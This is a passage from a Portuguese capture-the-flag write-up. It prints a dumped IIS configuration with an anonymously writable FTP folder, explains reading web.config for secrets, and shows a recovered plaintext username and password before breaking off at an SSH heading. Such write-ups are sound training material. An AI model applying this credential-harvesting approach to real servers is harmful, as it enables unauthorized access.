        <add name="StaticFileModule" lockItem="true" />
        <add name="AnonymousAuthenticationModule" lockItem="true" />
        <add name="RequestFilteringModule" lockItem="true" />
        <add name="CustomErrorModule" lockItem="true" />
    </modules>

    <odbcLogging />

    <security>

        <access sslFlags="None" />

        <applicationDependencies />

        <authentication>

            <anonymousAuthentication enabled="true" userName="IUSR" />

            <basicAuthentication />

            <clientCertificateMappingAuthentication />

            <digestAuthentication />

            <iisClientCertificateMappingAuthentication />

            <windowsAuthentication />

        </authentication>

        <authorization />

        <ipSecurity />

        <isapiCgiRestriction />

        <requestFiltering>
            <fileExtensions allowUnlisted="true" applyToWebDAV="true" />
            <verbs allowUnlisted="true" applyToWebDAV="true" />
            <hiddenSegments applyToWebDAV="true">
                <add segment="web.config" />
            </hiddenSegments>
        </requestFiltering>

    </security>

    <serverRuntime />

    <serverSideInclude />

    <staticContent lockAttributes="isDocFooterFileName">
        <mimeMap fileExtension=".323" mimeType="text/h323" />
        <mimeMap fileExtension=".3g2" mimeType="video/3gpp2" />
        <mimeMap fileExtension=".3gp2" mimeType="video/3gpp2" />
        <mimeMap fileExtension=".3gp" mimeType="video/3gpp" />
        <mimeMap fileExtension=".3gpp" mimeType="video/3gpp" />
        <mimeMap fileExtension=".aaf" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".aac" mimeType="audio/aac" />
        <mimeMap fileExtension=".aca" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".accdb" mimeType="application/msaccess" />
        <mimeMap fileExtension=".accde" mimeType="application/msaccess" />
        <mimeMap fileExtension=".accdt" mimeType="application/msaccess" />
        <mimeMap fileExtension=".acx" mimeType="application/internet-property-stream" />
        <mimeMap fileExtension=".adt" mimeType="audio/vnd.dlna.adts" />
        <mimeMap fileExtension=".adts" mimeType="audio/vnd.dlna.adts" />
        <mimeMap fileExtension=".afm" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".ai" mimeType="application/postscript" />
        <mimeMap fileExtension=".aif" mimeType="audio/x-aiff" />
        <mimeMap fileExtension=".aifc" mimeType="audio/aiff" />
        <mimeMap fileExtension=".aiff" mimeType="audio/aiff" />
        <mimeMap fileExtension=".appcache" mimeType="text/cache-manifest" />
        <mimeMap fileExtension=".application" mimeType="application/x-ms-application" />
        <mimeMap fileExtension=".art" mimeType="image/x-jg" />
        <mimeMap fileExtension=".asd" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".asf" mimeType="video/x-ms-asf" />
        <mimeMap fileExtension=".asi" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".asm" mimeType="text/plain" />
        <mimeMap fileExtension=".asr" mimeType="video/x-ms-asf" />
        <mimeMap fileExtension=".asx" mimeType="video/x-ms-asf" />
        <mimeMap fileExtension=".atom" mimeType="application/atom+xml" />
        <mimeMap fileExtension=".au" mimeType="audio/basic" />
        <mimeMap fileExtension=".avi" mimeType="video/avi" />
        <mimeMap fileExtension=".axs" mimeType="application/olescript" />
        <mimeMap fileExtension=".bas" mimeType="text/plain" />
        <mimeMap fileExtension=".bcpio" mimeType="application/x-bcpio" />
        <mimeMap fileExtension=".bin" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".bmp" mimeType="image/bmp" />
        <mimeMap fileExtension=".c" mimeType="text/plain" />
        <mimeMap fileExtension=".cab" mimeType="application/vnd.ms-cab-compressed" />
        <mimeMap fileExtension=".calx" mimeType="application/vnd.ms-office.calx" />
        <mimeMap fileExtension=".cat" mimeType="application/vnd.ms-pki.seccat" />
        <mimeMap fileExtension=".cdf" mimeType="application/x-cdf" />
        <mimeMap fileExtension=".chm" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".class" mimeType="application/x-java-applet" />
        <mimeMap fileExtension=".clp" mimeType="application/x-msclip" />
        <mimeMap fileExtension=".cmx" mimeType="image/x-cmx" />
        <mimeMap fileExtension=".cnf" mimeType="text/plain" />
        <mimeMap fileExtension=".cod" mimeType="image/cis-cod" />
        <mimeMap fileExtension=".cpio" mimeType="application/x-cpio" />
        <mimeMap fileExtension=".cpp" mimeType="text/plain" />
        <mimeMap fileExtension=".crd" mimeType="application/x-mscardfile" />
        <mimeMap fileExtension=".crl" mimeType="application/pkix-crl" />
        <mimeMap fileExtension=".crt" mimeType="application/x-x509-ca-cert" />
        <mimeMap fileExtension=".csh" mimeType="application/x-csh" />
        <mimeMap fileExtension=".css" mimeType="text/css" />
        <mimeMap fileExtension=".csv" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".cur" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".dcr" mimeType="application/x-director" />
        <mimeMap fileExtension=".deploy" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".der" mimeType="application/x-x509-ca-cert" />
        <mimeMap fileExtension=".dib" mimeType="image/bmp" />
        <mimeMap fileExtension=".dir" mimeType="application/x-director" />
        <mimeMap fileExtension=".disco" mimeType="text/xml" />
        <mimeMap fileExtension=".dll" mimeType="application/x-msdownload" />
        <mimeMap fileExtension=".dll.config" mimeType="text/xml" />
        <mimeMap fileExtension=".dlm" mimeType="text/dlm" />
        <mimeMap fileExtension=".doc" mimeType="application/msword" />
        <mimeMap fileExtension=".docm" mimeType="application/vnd.ms-word.document.macroEnabled.12" />
        <mimeMap fileExtension=".docx" mimeType="application/vnd.openxmlformats-officedocument.wordprocessingml.document" />
        <mimeMap fileExtension=".dot" mimeType="application/msword" />
        <mimeMap fileExtension=".dotm" mimeType="application/vnd.ms-word.template.macroEnabled.12" />
        <mimeMap fileExtension=".dotx" mimeType="application/vnd.openxmlformats-officedocument.wordprocessingml.template" />
        <mimeMap fileExtension=".dsp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".dtd" mimeType="text/xml" />
        <mimeMap fileExtension=".dvi" mimeType="application/x-dvi" />
        <mimeMap fileExtension=".dvr-ms" mimeType="video/x-ms-dvr" />
        <mimeMap fileExtension=".dwf" mimeType="drawing/x-dwf" />
        <mimeMap fileExtension=".dwp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".dxr" mimeType="application/x-director" />
        <mimeMap fileExtension=".eml" mimeType="message/rfc822" />
        <mimeMap fileExtension=".emz" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".eot" mimeType="application/vnd.ms-fontobject" />
        <mimeMap fileExtension=".eps" mimeType="application/postscript" />
        <mimeMap fileExtension=".esd" mimeType="application/vnd.ms-cab-compressed" />
        <mimeMap fileExtension=".etx" mimeType="text/x-setext" />
        <mimeMap fileExtension=".evy" mimeType="application/envoy" />
        <mimeMap fileExtension=".exe" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".exe.config" mimeType="text/xml" />
        <mimeMap fileExtension=".fdf" mimeType="application/vnd.fdf" />
        <mimeMap fileExtension=".fif" mimeType="application/fractals" />
        <mimeMap fileExtension=".fla" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".flr" mimeType="x-world/x-vrml" />
        <mimeMap fileExtension=".flv" mimeType="video/x-flv" />
        <mimeMap fileExtension=".gif" mimeType="image/gif" />
        <mimeMap fileExtension=".glb" mimeType="model/gltf-binary" />
        <mimeMap fileExtension=".gtar" mimeType="application/x-gtar" />
        <mimeMap fileExtension=".gz" mimeType="application/x-gzip" />
        <mimeMap fileExtension=".h" mimeType="text/plain" />
        <mimeMap fileExtension=".hdf" mimeType="application/x-hdf" />
        <mimeMap fileExtension=".hdml" mimeType="text/x-hdml" />
        <mimeMap fileExtension=".hhc" mimeType="application/x-oleobject" />
        <mimeMap fileExtension=".hhk" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".hhp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".hlp" mimeType="application/winhlp" />
        <mimeMap fileExtension=".hqx" mimeType="application/mac-binhex40" />
        <mimeMap fileExtension=".hta" mimeType="application/hta" />
        <mimeMap fileExtension=".htc" mimeType="text/x-component" />
        <mimeMap fileExtension=".htm" mimeType="text/html" />
        <mimeMap fileExtension=".html" mimeType="text/html" />
        <mimeMap fileExtension=".htt" mimeType="text/webviewhtml" />
        <mimeMap fileExtension=".hxt" mimeType="text/html" />
        <mimeMap fileExtension=".ico" mimeType="image/x-icon" />
        <mimeMap fileExtension=".ics" mimeType="text/calendar" />
        <mimeMap fileExtension=".ief" mimeType="image/ief" />
        <mimeMap fileExtension=".iii" mimeType="application/x-iphone" />
        <mimeMap fileExtension=".inf" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".ins" mimeType="application/x-internet-signup" />
        <mimeMap fileExtension=".isp" mimeType="application/x-internet-signup" />
        <mimeMap fileExtension=".IVF" mimeType="video/x-ivf" />
        <mimeMap fileExtension=".jar" mimeType="application/java-archive" />
        <mimeMap fileExtension=".java" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".jck" mimeType="application/liquidmotion" />
        <mimeMap fileExtension=".jcz" mimeType="application/liquidmotion" />
        <mimeMap fileExtension=".jfif" mimeType="image/pjpeg" />
        <mimeMap fileExtension=".jpb" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".jpe" mimeType="image/jpeg" />
        <mimeMap fileExtension=".jpeg" mimeType="image/jpeg" />
        <mimeMap fileExtension=".jpg" mimeType="image/jpeg" />
        <mimeMap fileExtension=".js" mimeType="application/javascript" />
        <mimeMap fileExtension=".json" mimeType="application/json" />
        <mimeMap fileExtension=".jsonld" mimeType="application/ld+json" />
        <mimeMap fileExtension=".jsx" mimeType="text/jscript" />
        <mimeMap fileExtension=".latex" mimeType="application/x-latex" />
        <mimeMap fileExtension=".less" mimeType="text/css" />
        <mimeMap fileExtension=".lit" mimeType="application/x-ms-reader" />
        <mimeMap fileExtension=".lpk" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".lsf" mimeType="video/x-la-asf" />
        <mimeMap fileExtension=".lsx" mimeType="video/x-la-asf" />
        <mimeMap fileExtension=".lzh" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".m13" mimeType="application/x-msmediaview" />
        <mimeMap fileExtension=".m14" mimeType="application/x-msmediaview" />
        <mimeMap fileExtension=".m1v" mimeType="video/mpeg" />
        <mimeMap fileExtension=".m2ts" mimeType="video/vnd.dlna.mpeg-tts" />
        <mimeMap fileExtension=".m3u" mimeType="audio/x-mpegurl" />
        <mimeMap fileExtension=".m4a" mimeType="audio/mp4" />
        <mimeMap fileExtension=".m4v" mimeType="video/mp4" />
        <mimeMap fileExtension=".man" mimeType="application/x-troff-man" />
        <mimeMap fileExtension=".manifest" mimeType="application/x-ms-manifest" />
        <mimeMap fileExtension=".map" mimeType="text/plain" />
        <mimeMap fileExtension=".mdb" mimeType="application/x-msaccess" />
        <mimeMap fileExtension=".mdp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".me" mimeType="application/x-troff-me" />
        <mimeMap fileExtension=".mht" mimeType="message/rfc822" />
        <mimeMap fileExtension=".mhtml" mimeType="message/rfc822" />
        <mimeMap fileExtension=".mid" mimeType="audio/mid" />
        <mimeMap fileExtension=".midi" mimeType="audio/mid" />
        <mimeMap fileExtension=".mix" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".mmf" mimeType="application/x-smaf" />
        <mimeMap fileExtension=".mno" mimeType="text/xml" />
        <mimeMap fileExtension=".mny" mimeType="application/x-msmoney" />
        <mimeMap fileExtension=".mov" mimeType="video/quicktime" />
        <mimeMap fileExtension=".movie" mimeType="video/x-sgi-movie" />
        <mimeMap fileExtension=".mp2" mimeType="video/mpeg" />
        <mimeMap fileExtension=".mp3" mimeType="audio/mpeg" />
        <mimeMap fileExtension=".mp4" mimeType="video/mp4" />
        <mimeMap fileExtension=".mp4v" mimeType="video/mp4" />
        <mimeMap fileExtension=".mpa" mimeType="video/mpeg" />
        <mimeMap fileExtension=".mpe" mimeType="video/mpeg" />
        <mimeMap fileExtension=".mpeg" mimeType="video/mpeg" />
        <mimeMap fileExtension=".mpg" mimeType="video/mpeg" />
        <mimeMap fileExtension=".mpp" mimeType="application/vnd.ms-project" />
        <mimeMap fileExtension=".mpv2" mimeType="video/mpeg" />
        <mimeMap fileExtension=".ms" mimeType="application/x-troff-ms" />
        <mimeMap fileExtension=".msi" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".mso" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".mvb" mimeType="application/x-msmediaview" />
        <mimeMap fileExtension=".mvc" mimeType="application/x-miva-compiled" />
        <mimeMap fileExtension=".nc" mimeType="application/x-netcdf" />
        <mimeMap fileExtension=".nsc" mimeType="video/x-ms-asf" />
        <mimeMap fileExtension=".nws" mimeType="message/rfc822" />
        <mimeMap fileExtension=".ocx" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".oda" mimeType="application/oda" />
        <mimeMap fileExtension=".odc" mimeType="text/x-ms-odc" />
        <mimeMap fileExtension=".ods" mimeType="application/oleobject" />
        <mimeMap fileExtension=".oga" mimeType="audio/ogg" />
        <mimeMap fileExtension=".ogg" mimeType="video/ogg" />
        <mimeMap fileExtension=".ogv" mimeType="video/ogg" />
        <mimeMap fileExtension=".one" mimeType="application/onenote" />
        <mimeMap fileExtension=".onea" mimeType="application/onenote" />
        <mimeMap fileExtension=".onetoc" mimeType="application/onenote" />
        <mimeMap fileExtension=".onetoc2" mimeType="application/onenote" />
        <mimeMap fileExtension=".onetmp" mimeType="application/onenote" />
        <mimeMap fileExtension=".onepkg" mimeType="application/onenote" />
        <mimeMap fileExtension=".osdx" mimeType="application/opensearchdescription+xml" />
        <mimeMap fileExtension=".otf" mimeType="font/otf" />
        <mimeMap fileExtension=".p10" mimeType="application/pkcs10" />
        <mimeMap fileExtension=".p12" mimeType="application/x-pkcs12" />
        <mimeMap fileExtension=".p7b" mimeType="application/x-pkcs7-certificates" />
        <mimeMap fileExtension=".p7c" mimeType="application/pkcs7-mime" />
        <mimeMap fileExtension=".p7m" mimeType="application/pkcs7-mime" />
        <mimeMap fileExtension=".p7r" mimeType="application/x-pkcs7-certreqresp" />
        <mimeMap fileExtension=".p7s" mimeType="application/pkcs7-signature" />
        <mimeMap fileExtension=".pbm" mimeType="image/x-portable-bitmap" />
        <mimeMap fileExtension=".pcx" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".pcz" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".pdf" mimeType="application/pdf" />
        <mimeMap fileExtension=".pfb" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".pfm" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".pfx" mimeType="application/x-pkcs12" />
        <mimeMap fileExtension=".pgm" mimeType="image/x-portable-graymap" />
        <mimeMap fileExtension=".pko" mimeType="application/vnd.ms-pki.pko" />
        <mimeMap fileExtension=".pma" mimeType="application/x-perfmon" />
        <mimeMap fileExtension=".pmc" mimeType="application/x-perfmon" />
        <mimeMap fileExtension=".pml" mimeType="application/x-perfmon" />
        <mimeMap fileExtension=".pmr" mimeType="application/x-perfmon" />
        <mimeMap fileExtension=".pmw" mimeType="application/x-perfmon" />
        <mimeMap fileExtension=".png" mimeType="image/png" />
        <mimeMap fileExtension=".pnm" mimeType="image/x-portable-anymap" />
        <mimeMap fileExtension=".pnz" mimeType="image/png" />
        <mimeMap fileExtension=".pot" mimeType="application/vnd.ms-powerpoint" />
        <mimeMap fileExtension=".potm" mimeType="application/vnd.ms-powerpoint.template.macroEnabled.12" />
        <mimeMap fileExtension=".potx" mimeType="application/vnd.openxmlformats-officedocument.presentationml.template" />
        <mimeMap fileExtension=".ppam" mimeType="application/vnd.ms-powerpoint.addin.macroEnabled.12" />
        <mimeMap fileExtension=".ppm" mimeType="image/x-portable-pixmap" />
        <mimeMap fileExtension=".pps" mimeType="application/vnd.ms-powerpoint" />
        <mimeMap fileExtension=".ppsm" mimeType="application/vnd.ms-powerpoint.slideshow.macroEnabled.12" />
        <mimeMap fileExtension=".ppsx" mimeType="application/vnd.openxmlformats-officedocument.presentationml.slideshow" />
        <mimeMap fileExtension=".ppt" mimeType="application/vnd.ms-powerpoint" />
        <mimeMap fileExtension=".pptm" mimeType="application/vnd.ms-powerpoint.presentation.macroEnabled.12" />
        <mimeMap fileExtension=".pptx" mimeType="application/vnd.openxmlformats-officedocument.presentationml.presentation" />
        <mimeMap fileExtension=".prf" mimeType="application/pics-rules" />
        <mimeMap fileExtension=".prm" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".prx" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".ps" mimeType="application/postscript" />
        <mimeMap fileExtension=".psd" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".psm" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".psp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".pub" mimeType="application/x-mspublisher" />
        <mimeMap fileExtension=".qt" mimeType="video/quicktime" />
        <mimeMap fileExtension=".qtl" mimeType="application/x-quicktimeplayer" />
        <mimeMap fileExtension=".qxd" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".ra" mimeType="audio/x-pn-realaudio" />
        <mimeMap fileExtension=".ram" mimeType="audio/x-pn-realaudio" />
        <mimeMap fileExtension=".rar" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".ras" mimeType="image/x-cmu-raster" />
        <mimeMap fileExtension=".rf" mimeType="image/vnd.rn-realflash" />
        <mimeMap fileExtension=".rgb" mimeType="image/x-rgb" />
        <mimeMap fileExtension=".rm" mimeType="application/vnd.rn-realmedia" />
        <mimeMap fileExtension=".rmi" mimeType="audio/mid" />
        <mimeMap fileExtension=".roff" mimeType="application/x-troff" />
        <mimeMap fileExtension=".rpm" mimeType="audio/x-pn-realaudio-plugin" />
        <mimeMap fileExtension=".rtf" mimeType="application/rtf" />
        <mimeMap fileExtension=".rtx" mimeType="text/richtext" />
        <mimeMap fileExtension=".scd" mimeType="application/x-msschedule" />
        <mimeMap fileExtension=".sct" mimeType="text/scriptlet" />
        <mimeMap fileExtension=".sea" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".setpay" mimeType="application/set-payment-initiation" />
        <mimeMap fileExtension=".setreg" mimeType="application/set-registration-initiation" />
        <mimeMap fileExtension=".sgml" mimeType="text/sgml" />
        <mimeMap fileExtension=".sh" mimeType="application/x-sh" />
        <mimeMap fileExtension=".shar" mimeType="application/x-shar" />
        <mimeMap fileExtension=".sit" mimeType="application/x-stuffit" />
        <mimeMap fileExtension=".sldm" mimeType="application/vnd.ms-powerpoint.slide.macroEnabled.12" />
        <mimeMap fileExtension=".sldx" mimeType="application/vnd.openxmlformats-officedocument.presentationml.slide" />
        <mimeMap fileExtension=".smd" mimeType="audio/x-smd" />
        <mimeMap fileExtension=".smi" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".smx" mimeType="audio/x-smd" />
        <mimeMap fileExtension=".smz" mimeType="audio/x-smd" />
        <mimeMap fileExtension=".snd" mimeType="audio/basic" />
        <mimeMap fileExtension=".snp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".spc" mimeType="application/x-pkcs7-certificates" />
        <mimeMap fileExtension=".spl" mimeType="application/futuresplash" />
        <mimeMap fileExtension=".spx" mimeType="audio/ogg" />
        <mimeMap fileExtension=".src" mimeType="application/x-wais-source" />
        <mimeMap fileExtension=".ssm" mimeType="application/streamingmedia" />
        <mimeMap fileExtension=".sst" mimeType="application/vnd.ms-pki.certstore" />
        <mimeMap fileExtension=".stl" mimeType="application/vnd.ms-pki.stl" />
        <mimeMap fileExtension=".sv4cpio" mimeType="application/x-sv4cpio" />
        <mimeMap fileExtension=".sv4crc" mimeType="application/x-sv4crc" />
        <mimeMap fileExtension=".svg" mimeType="image/svg+xml" />
        <mimeMap fileExtension=".svgz" mimeType="image/svg+xml" />
        <mimeMap fileExtension=".swf" mimeType="application/x-shockwave-flash" />
        <mimeMap fileExtension=".t" mimeType="application/x-troff" />
        <mimeMap fileExtension=".tar" mimeType="application/x-tar" />
        <mimeMap fileExtension=".tcl" mimeType="application/x-tcl" />
        <mimeMap fileExtension=".tex" mimeType="application/x-tex" />
        <mimeMap fileExtension=".texi" mimeType="application/x-texinfo" />
        <mimeMap fileExtension=".texinfo" mimeType="application/x-texinfo" />
        <mimeMap fileExtension=".tgz" mimeType="application/x-compressed" />
        <mimeMap fileExtension=".thmx" mimeType="application/vnd.ms-officetheme" />
        <mimeMap fileExtension=".thn" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".tif" mimeType="image/tiff" />
        <mimeMap fileExtension=".tiff" mimeType="image/tiff" />
        <mimeMap fileExtension=".toc" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".tr" mimeType="application/x-troff" />
        <mimeMap fileExtension=".trm" mimeType="application/x-msterminal" />
        <mimeMap fileExtension=".ts" mimeType="video/vnd.dlna.mpeg-tts" />
        <mimeMap fileExtension=".tsv" mimeType="text/tab-separated-values" />
        <mimeMap fileExtension=".ttf" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".tts" mimeType="video/vnd.dlna.mpeg-tts" />
        <mimeMap fileExtension=".txt" mimeType="text/plain" />
        <mimeMap fileExtension=".u32" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".uls" mimeType="text/iuls" />
        <mimeMap fileExtension=".ustar" mimeType="application/x-ustar" />
        <mimeMap fileExtension=".vbs" mimeType="text/vbscript" />
        <mimeMap fileExtension=".vcf" mimeType="text/x-vcard" />
        <mimeMap fileExtension=".vcs" mimeType="text/plain" />
        <mimeMap fileExtension=".vdx" mimeType="application/vnd.ms-visio.viewer" />
        <mimeMap fileExtension=".vml" mimeType="text/xml" />
        <mimeMap fileExtension=".vsd" mimeType="application/vnd.visio" />
        <mimeMap fileExtension=".vss" mimeType="application/vnd.visio" />
        <mimeMap fileExtension=".vst" mimeType="application/vnd.visio" />
        <mimeMap fileExtension=".vsto" mimeType="application/x-ms-vsto" />
        <mimeMap fileExtension=".vsw" mimeType="application/vnd.visio" />
        <mimeMap fileExtension=".vsx" mimeType="application/vnd.visio" />
        <mimeMap fileExtension=".vtx" mimeType="application/vnd.visio" />
        <mimeMap fileExtension=".wasm" mimeType="application/wasm" />
        <mimeMap fileExtension=".wav" mimeType="audio/wav" />
        <mimeMap fileExtension=".wax" mimeType="audio/x-ms-wax" />
        <mimeMap fileExtension=".wbmp" mimeType="image/vnd.wap.wbmp" />
        <mimeMap fileExtension=".wcm" mimeType="application/vnd.ms-works" />
        <mimeMap fileExtension=".wdb" mimeType="application/vnd.ms-works" />
        <mimeMap fileExtension=".webm" mimeType="video/webm" />
        <mimeMap fileExtension=".wks" mimeType="application/vnd.ms-works" />
        <mimeMap fileExtension=".wm" mimeType="video/x-ms-wm" />
        <mimeMap fileExtension=".wma" mimeType="audio/x-ms-wma" />
        <mimeMap fileExtension=".wmd" mimeType="application/x-ms-wmd" />
        <mimeMap fileExtension=".wmf" mimeType="application/x-msmetafile" />
        <mimeMap fileExtension=".wml" mimeType="text/vnd.wap.wml" />
        <mimeMap fileExtension=".wmlc" mimeType="application/vnd.wap.wmlc" />
        <mimeMap fileExtension=".wmls" mimeType="text/vnd.wap.wmlscript" />
        <mimeMap fileExtension=".wmlsc" mimeType="application/vnd.wap.wmlscriptc" />
        <mimeMap fileExtension=".wmp" mimeType="video/x-ms-wmp" />
        <mimeMap fileExtension=".wmv" mimeType="video/x-ms-wmv" />
        <mimeMap fileExtension=".wmx" mimeType="video/x-ms-wmx" />
        <mimeMap fileExtension=".wmz" mimeType="application/x-ms-wmz" />
        <mimeMap fileExtension=".woff" mimeType="font/x-woff" />
        <mimeMap fileExtension=".woff2" mimeType="application/font-woff2" />
        <mimeMap fileExtension=".wps" mimeType="application/vnd.ms-works" />
        <mimeMap fileExtension=".wri" mimeType="application/x-mswrite" />
        <mimeMap fileExtension=".wrl" mimeType="x-world/x-vrml" />
        <mimeMap fileExtension=".wrz" mimeType="x-world/x-vrml" />
        <mimeMap fileExtension=".wsdl" mimeType="text/xml" />
        <mimeMap fileExtension=".wtv" mimeType="video/x-ms-wtv" />
        <mimeMap fileExtension=".wvx" mimeType="video/x-ms-wvx" />
        <mimeMap fileExtension=".x" mimeType="application/directx" />
        <mimeMap fileExtension=".xaf" mimeType="x-world/x-vrml" />
        <mimeMap fileExtension=".xaml" mimeType="application/xaml+xml" />
        <mimeMap fileExtension=".xap" mimeType="application/x-silverlight-app" />
        <mimeMap fileExtension=".xbap" mimeType="application/x-ms-xbap" />
        <mimeMap fileExtension=".xbm" mimeType="image/x-xbitmap" />
        <mimeMap fileExtension=".xdr" mimeType="text/plain" />
        <mimeMap fileExtension=".xht" mimeType="application/xhtml+xml" />
        <mimeMap fileExtension=".xhtml" mimeType="application/xhtml+xml" />
        <mimeMap fileExtension=".xla" mimeType="application/vnd.ms-excel" />
        <mimeMap fileExtension=".xlam" mimeType="application/vnd.ms-excel.addin.macroEnabled.12" />
        <mimeMap fileExtension=".xlc" mimeType="application/vnd.ms-excel" />
        <mimeMap fileExtension=".xlm" mimeType="application/vnd.ms-excel" />
        <mimeMap fileExtension=".xls" mimeType="application/vnd.ms-excel" />
        <mimeMap fileExtension=".xlsb" mimeType="application/vnd.ms-excel.sheet.binary.macroEnabled.12" />
        <mimeMap fileExtension=".xlsm" mimeType="application/vnd.ms-excel.sheet.macroEnabled.12" />
        <mimeMap fileExtension=".xlsx" mimeType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet" />
        <mimeMap fileExtension=".xlt" mimeType="application/vnd.ms-excel" />
        <mimeMap fileExtension=".xltm" mimeType="application/vnd.ms-excel.template.macroEnabled.12" />
        <mimeMap fileExtension=".xltx" mimeType="application/vnd.openxmlformats-officedocument.spreadsheetml.template" />
        <mimeMap fileExtension=".xlw" mimeType="application/vnd.ms-excel" />
        <mimeMap fileExtension=".xml" mimeType="text/xml" />
        <mimeMap fileExtension=".xof" mimeType="x-world/x-vrml" />
        <mimeMap fileExtension=".xpm" mimeType="image/x-xpixmap" />
        <mimeMap fileExtension=".xps" mimeType="application/vnd.ms-xpsdocument" />
        <mimeMap fileExtension=".xsd" mimeType="text/xml" />
        <mimeMap fileExtension=".xsf" mimeType="text/xml" />
        <mimeMap fileExtension=".xsl" mimeType="text/xml" />
        <mimeMap fileExtension=".xslt" mimeType="text/xml" />
        <mimeMap fileExtension=".xsn" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".xtp" mimeType="application/octet-stream" />
        <mimeMap fileExtension=".xwd" mimeType="image/x-xwindowdump" />
        <mimeMap fileExtension=".z" mimeType="application/x-compress" />
        <mimeMap fileExtension=".zip" mimeType="application/x-zip-compressed" />
    </staticContent>

    <tracing>

        <traceFailedRequests />

        <traceProviderDefinitions />

    </tracing>

    <urlCompression />

    <validation />

</system.webServer>
<system.ftpServer>
    <providerDefinitions>
        <add name="IisManagerAuth" type="Microsoft.Web.FtpServer.Security.IisManagerAuthenticationProvider,Microsoft.Web.FtpServer,version=7.5.0.0,Culture=neutral,PublicKeyToken=31bf3856ad364e35" />
        <add name="AspNetAuth" type="Microsoft.Web.FtpServer.Security.AspNetFtpMembershipProvider,Microsoft.Web.FtpServer,version=7.5.0.0,Culture=neutral,PublicKeyToken=31bf3856ad364e35" />
    </providerDefinitions>
    <log>
    </log>
    <firewallSupport />
    <caching>
    </caching>
    <security>
        <ipSecurity />
        <requestFiltering>
            <hiddenSegments>
                <add segment="_vti_bin" />
            </hiddenSegments>
        </requestFiltering>
        <authorization>
            <add accessType="Allow" users="?" permissions="Read" />
            <add accessType="Allow" users="*" permissions="Read" />
        </authorization>
    </security>
</system.ftpServer>
<location path="data-leaks">
    <system.ftpServer>
        <security>
            <authorization>
                <add accessType="Allow" users="*" permissions="Read, Write" />
                <add accessType="Allow" users="?" permissions="Read, Write" />
            </authorization>
        </security>
    </system.ftpServer>
</location>
```

gora que confirmamos que o caminho do servidor web está corretamente configurado e acessível, partimos para a tentativa de acesso ao arquivo **`web.config`**, um arquivo de configuração crítico utilizado por aplicações ASP.NET. Esse arquivo geralmente contém definições sensíveis, como **strings de conexão com bancos de dados**, **parâmetros de autenticação**, e outras configurações que podem ser úteis para avanço na exploração.

**`C:\inetpub`** é o diretório padrão utilizado pelo **Microsoft IIS (Internet Information Services)** para armazenar arquivos relacionados à hospedagem de sites. Dentro dele, o subdiretório **`wwwroot`** (**`C:\inetpub\wwwroot`**) é o local padrão onde ficam armazenadas as páginas web e conteúdos que serão publicados. Ou seja, é nesse diretório que o IIS busca os arquivos para servir aos usuários que acessam o site. Caso o administrador não configure outro caminho personalizado, o **`wwwroot`** será a raiz do site acessível via navegador.



> [!Credencial encontrada]
> add key="Username" value"tyler" />
> add key=Password" value="IAmA1337h4x0randIkn0wit!" 

## 3.3 Acessando o SSH

# Primeira Flag
